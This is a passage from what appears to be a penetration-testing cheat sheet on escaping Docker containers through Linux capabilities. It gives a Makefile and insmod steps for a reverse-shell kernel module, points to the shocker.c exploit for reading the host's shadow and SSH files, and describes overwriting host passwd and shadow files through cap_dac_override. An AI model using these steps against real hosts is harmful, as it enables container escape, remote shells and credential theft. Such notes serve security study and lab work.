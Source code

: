 Then we should create a Makefile to compile kernel module.&#x20;

````
```makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
````

Make the kernel module.

`make`

Listen on the port in docker container

Then in new terminal&#x20;

`insmod reverse-shell.ko`



## cap\_dac\_read\_search capability

The `cap_dac_read_search` capability is important because it controls a process's ability to read and search directories/files with discretionary access control (DAC) permissions. DAC permissions determine who can access and modify specific files and directories on a system.

```
capsh --print
```

Later check for cap\_dac\_read\_search capability. ([https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3](https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3))

We should use that c code, [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c)

Check also is there any `.dockerinit` file exist.&#x20;

Look which disks are mounted. `mount`

* If there is /etc/ directories mounted change in exploit int main() section and add there these directories.&#x20;

after adding these by using gcc compile the code.&#x20;



So by that you can read shadow file of the host machine. Maybe SSH files or ssh config files of host machine can be read also.&#x20;



## cap\_dac\_override&#x20;

if we have both cap\_dac\_read\_search and cap\_dac\_override cap we can create a user in our container and then change host passwd and shadow files with our new created user one.&#x20;
